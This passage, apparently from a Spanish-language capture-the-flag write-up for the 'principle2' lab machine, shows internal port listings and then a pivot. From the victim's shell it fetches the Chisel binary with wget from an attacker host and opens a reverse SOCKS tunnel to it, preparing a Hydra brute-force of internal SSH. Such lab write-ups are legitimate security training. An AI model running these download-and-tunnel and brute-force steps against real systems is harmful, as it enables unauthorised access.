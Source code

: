 ~~~bash
tcp     LISTEN   0        4096                [::]:56841             [::]:*      uid:103 ino:16182 sk:22 cgroup:/system.slice/rpc-statd.service v6only:1 <->    
tcp     LISTEN   0        4096                [::]:44553             [::]:*      ino:16131 sk:23 cgroup:/system.slice/nfs-mountd.service v6only:1 <->           
tcp     LISTEN   0        50                  [::]:445               [::]:*      ino:17491 sk:24 cgroup:/system.slice/smbd.service v6only:1 <->                 
tcp     LISTEN   0        64                  [::]:41221             [::]:*      ino:16615 sk:25 cgroup:unreachable:7c6 v6only:1 <->                            
tcp     LISTEN   0        128                 [::]:345               [::]:*      ino:16704 sk:26 cgroup:/system.slice/ssh.service v6only:1 <->                  
tcp     LISTEN   0        50                  [::]:139               [::]:*      ino:17492 sk:27 cgroup:/system.slice/smbd.service v6only:1 <->                 
tcp     LISTEN   0        64                  [::]:2049              [::]:*      ino:16599 sk:28 cgroup:unreachable:7c6 v6only:1 <->                            
tcp     LISTEN   0        511                 [::]:80                [::]:*      ino:16649 sk:29 cgroup:/system.slice/nginx.service v6only:1 <->                
tcp     LISTEN   0        4096                [::]:111               [::]:*      ino:12781 sk:2a cgroup:/system.slice/rpcbind.socket v6only:1 <->     
~~~

Hemos detectado el puerto SSH de forma interna en el 345, así que vamos a tirar de Chisel para crear un túnel y atacar el SSH con un diccionario personalizado con la lista del principio con Hydra.

> Podríamos utilizar un script de fuerza bruta para el comando "su" también, como <https://github.com/carlospolop/su-bruteforce>, ya que quizá es lo más "lógico".

En estos casos, como siempre subiremos el Chisel [creando un servidor en Python](https://kaianperez.github.io/server/) y le daremos permisos de ejecución. Pero antes deberemos ejecutar en la máquina atacante: `./chisel server --reverse -p 1234`. En este caso vamos a entablar un túnel proxy SOCKS.

Entonces ya sí ejecutamos en la máquina víctima:

~~~bash
hermanubis@principle2:~$ wget 192.168.1.150/chisel
--2023-11-29 00:12:41--  http://192.168.1.150/chisel
Connecting to 192.168.1.150:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8711104 (8.3M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.31M  --.-KB/s    in 0.05s   

2023-11-29 00:12:41 (170 MB/s) - ‘chisel’ saved [8711104/8711104]

hermanubis@principle2:~$ chmod +x chisel
hermanubis@principle2:~$ ./chisel client 192.168.1.150:1234 R:socks         
2023/11/29 01:00:22 client: Connecting to ws://192.168.1.150:1234
2023/11/29 01:00:22 client: Connected (Latency 360.938µs)
~~~


### Fuerza bruta con Hydra

Con esto ya estamos conectados, ahora vamos a crear el diccionario y ejecutar el ataque:
